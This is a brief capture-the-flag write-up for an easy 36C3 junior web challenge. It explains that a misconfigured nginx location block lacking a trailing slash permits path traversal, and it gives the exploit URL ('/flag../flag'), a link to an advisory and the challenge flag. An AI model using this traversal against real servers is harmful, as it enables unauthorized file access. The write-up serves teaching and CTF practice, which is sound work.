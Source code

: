 # Stage 4 - travel - web - easy

## Challenge

Fun climbing up: http://108.61.211.185:8081/

## Solution

The webpage results nginx [configuration](https://github.com/ljagiello/junior-36c3-ctf/blob/master/4-travel-web-easy/nginx.conf).

The nginx is misconfigured in `location` section. It does not end with a `/` and as a result of that allows path traversal.

```
http://108.61.211.185:8081/flag../flag
```

## Links
* https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/

## Flag
```
junior-the_easy_way_up
```
